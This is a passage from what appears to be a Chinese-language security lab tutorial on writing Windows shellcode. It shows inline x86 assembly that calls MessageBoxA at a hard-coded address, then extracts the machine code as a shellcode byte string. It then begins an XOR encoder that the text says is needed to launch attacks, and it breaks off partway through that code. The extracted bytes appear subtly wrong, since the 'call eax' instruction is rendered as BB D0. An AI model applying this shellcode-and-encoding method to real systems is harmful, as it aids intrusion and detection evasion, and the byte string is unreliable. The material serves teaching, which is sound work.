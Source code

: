 ​	我们编写以下的代码来实现

```c++
#include <stdio.h>
#include <windows.h>
void main()
{
    LoadLibrary("user32.dll");//加载user32.dll
    _asm
    {
        xor ebx,ebx
            push ebx//push 0
            push 20646C72h
            push 6F77206Fh
            push 6C6C6568h
            mov eax, esp
            push ebx//push 0
            push eax
            push eax
            push ebx
            mov eax, 77d507eah
            call eax
    }
    return;
}
```

​	我们运行代码，发现得到正确的弹窗：

![image-20250410110516371](C:\Users\coffe\AppData\Roaming\Typora\typora-user-images\image-20250410110516371.png)

### 2.跳转到反汇编界面以获取对应机器码

​	运行成功后，我们获得相应的机器码

![image-20250410111010977](C:\Users\coffe\AppData\Roaming\Typora\typora-user-images\image-20250410111010977.png)

​	发现是，地址从0040103C到了0040105B，将这部分的机器码提取出来，shellcode代码是：

```
\x33\xDB\x53\x68\x72\x6C\x64\x20\x68\x6F\x20\x77\x6F\x68\x68\x65\x6C\x6C\x8B\xC4\
x53\x50\x50\x53\xB8\xEA\x07\xD5\x77\xBB\xD0
```

​	所以，我们成功的编写了一段shellcode代码。



### 三、shellcode代码的编码

​	在我们编写并提取出shellcode代码后，我们需要对shellcode进行编码，才能进行攻击，我们一般使 用的是xor编码。

​	我们输入以下的代码，就可以实现编码功能。

```c++
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
void encoder(char* input, unsigned char key)
{
    int i = 0, len = 0;
    FILE * fp;
    len = strlen(input);
    unsigned char * output = (unsigned char *)malloc(len + 1);
    for (i = 0; i<len; i++)
        output[i] = input[i] ^ key;
    fp = fopen("encode.txt", "w+");
    fprintf(fp, "\"");
    for (i = 0; i<len; i++)
```